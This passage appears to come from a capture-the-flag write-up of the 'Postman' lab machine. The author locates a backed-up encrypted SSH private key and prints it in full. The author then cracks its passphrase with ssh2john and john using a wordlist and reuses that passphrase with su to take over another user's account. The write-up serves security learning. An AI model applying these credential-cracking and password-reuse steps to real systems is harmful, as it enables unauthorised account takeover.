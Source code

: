 When searching for the files mentioned in the history we found that the
`id_rsa.bak` key exist in `/opt/` and is an encrypted RSA private key.

    :::text
    redis@Postman:~$ find / -name 'id_rsa.bak' 2> /dev/null^C
    /opt/id_rsa.bak
    redis@Postman:~$ cat /opt/id_rsa.bak
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

    JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
    cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
    7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
    cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
    1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
    EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
    UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
    Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
    t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
    5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
    P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
    jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
    SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
    l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
    0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
    S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
    hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
    Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
    XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
    b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
    WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
    KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
    npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
    VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
    X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
    -----END RSA PRIVATE KEY-----

We copy the key on our computer and use `ssh2john` to extract the hash from the
key and run a john on it: the password is `computer2008`.

    :::text
    python2 /usr/bin/ssh2john redis_rsa > redis_rsa.hash
    john redis_rsa.hash -w=rockyou.txt
    computer2008

The key does not allow us to connect using the SSH key (the ssh connection
closed immediately). I also tried this creds for a locally elevation with `su`
and it works… I do not know why the user will have the same password as it
sshkey passphrase but it works and we get the user flag.

    :::text
    redis@Postman:~$ su Matt
    Password:
    Matt@Postman:/var/lib/redis$ cd
    Matt@Postman:~$ ls
    user.txt
    Matt@Postman:~$ cat user.txt
    517ad0<redacted>
